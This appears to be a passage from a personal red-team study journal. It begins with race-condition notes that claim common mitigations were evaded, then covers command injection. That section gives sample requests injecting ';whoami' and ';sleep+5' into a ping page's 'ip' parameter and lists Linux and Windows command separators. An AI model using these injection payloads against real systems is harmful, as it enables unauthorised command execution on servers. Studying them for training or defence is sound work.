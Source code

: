 ```bash

Exploitation Complexity: Medium-High (Timing and coordination critical)

🔧 MITIGATIONS UNDERSTOOD & EVADED
Database locks (SELECT FOR UPDATE) - Bypassed with precise timing

Atomic transactions - Evaded through concurrent connection abuse

Rate limiting - Defeated with distributed attacks

Application-level checks - Overwhelmed with parallel requests

🚀 PROGRESSION IN RED TEAM SKILL MATRIX
✅ Network Security
✅ Web Application Security
✅ Client-Side Attacks
✅ Business Logic Attacks ← RACE CONDITIONS ADDED
◽ Advanced Persistence Techniques

OPERATIONAL NOTES: Race conditions represent sophisticated attacks that target fundamental architectural flaws. Success requires precise timing, understanding of business logic, and the ability to coordinate concurrent attacks effectively. These vulnerabilities often reveal deep-seated issues in application design rather than simple implementation bugs.

# Red Monster Journey 🐲 
## Command Injection Vulnerability Mastery

### 🎯 MODULE COMPLETION: COMMAND INJECTION
**Status:** Mastered ✅
**Red Team Application:** System-Level Compromise & Server Control

### 🔴 COMMAND INJECTION TRADECRAFT DOCUMENTATION

#### 📊 VULNERABILITY OVERVIEW
Command injection vulnerabilities allow attackers to execute arbitrary operating system commands through vulnerable web applications, providing direct system access with the application's privileges.

#### 🎲 EXPLOITATION TECHNIQUES MASTERED

##### DETECTION METHODS
```http
# Verbose Command Injection (Output Visible)
GET /ping.php?ip=127.0.0.1;whoami
Response: PING 127.0.0.1...root

# Blind Command Injection (No Direct Output)
GET /ping.php?ip=127.0.0.1;sleep+5
Observation: 5-second delay indicates successful injection
OPERATING SYSTEM SPECIFIC PAYLOADS
bash
# Linux/Unix Command Separators
; whoami                    # Always execute
| whoami                    # Pipe output
&& whoami                   # Execute if previous succeeds
|| whoami                   # Execute if previous fails
`whoami`                    # Command substitution
$(whoami)                   # Modern command substitution

# Windows Command Separators
& whoami                    # Execute both commands
| whoami                    # Pipe (different behavior)
&& whoami                   # Execute if previous succeeds  
|| whoami                   # Execute if previous fails
```